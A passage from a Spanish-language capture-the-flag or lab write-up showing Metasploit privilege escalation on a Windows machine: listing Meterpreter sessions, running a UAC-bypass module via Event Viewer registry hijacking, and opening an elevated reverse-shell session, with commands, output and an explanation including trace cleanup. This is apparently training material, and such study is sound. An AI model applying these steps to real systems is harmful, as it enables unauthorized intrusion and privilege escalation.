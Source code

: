 
Para seleccionar la sesión correcta, primero se listaron las sesiones de Meterpreter activas con:

```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.23.120.245:4444 -> 10.10.39.239:49187 (10.10.39.239)
```

En este caso, la sesión a usar era la **1**, correspondiente a la shell obtenida previamente tras explotar Icecast.

### Ejecución del módulo

Posteriormente, se ejecutó el exploit:

```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > exploit
[*] Started reverse TCP handler on 10.23.120.245:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (177734 bytes) to 10.10.39.239
[*] Meterpreter session 2 opened (10.23.120.245:4444 -> 10.10.39.239:49189) at 2025-09-18 16:02:13 -0500
[*] Cleaning up registry keys ...
```

**Explicación:**

1. El módulo verifica el estado de **UAC** y los privilegios de la sesión actual.
2. Inserta temporalmente claves de registro para redirigir la ejecución del **Event Viewer** a un payload controlado.
3. Ejecuta `eventvwr.exe`, que, al iniciarse, lanza el payload con **privilegios elevados**.
4. Se abre una **nueva sesión de Meterpreter** (sesión 2) con permisos de **SYSTEM**, mientras que las claves de registro se eliminan automáticamente para reducir rastros.

### Conexión a la nueva sesión

Se nos creara una `nueva sesion de meterpreter`.

Para interactuar con la sesión elevada:

```bash
meterpreter > sessions -i 2
[*] Backgrounding session 1...
```
